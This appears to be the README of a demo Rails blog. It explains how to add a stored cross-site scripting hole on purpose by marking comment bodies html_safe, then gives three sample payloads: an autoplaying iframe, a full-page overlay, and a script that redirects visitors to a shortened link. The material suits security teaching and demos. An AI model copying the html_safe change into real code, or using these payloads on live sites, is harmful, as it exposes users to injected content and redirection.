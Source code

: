 ### Description:

This is an example of blog created from this guide: https://guides.rubyonrails.org/getting_started.html

### How to add a vulnerability

You need to open `app/views/comments/_comment.html.erb` and change

```
      <%= comment.body %>
```

to

```
      <%= comment.body.html_safe %>
```

### XSS Examples:

**Comment with an iframe**

```
<iframe width="925" height="315" src="https://www.youtube.com/embed/dQw4w9WgXcQ?rel=0&amp;autoplay=1&amp;controls=0&amp;showinfo=0" frameborder="0" allowfullscreen></iframe>
```

**Dark souls style comment**

```
<div style="width:100%;height:100%;position: absolute;top: 0;left:0;background-color: black;color: red;text-align: center;padding: 20%;">
<h1>You died</h1>
</div>
```

**Comment with redirect**

```
<script>
window.location.replace('https://bit.ly/3MRMLyq');
</script>
```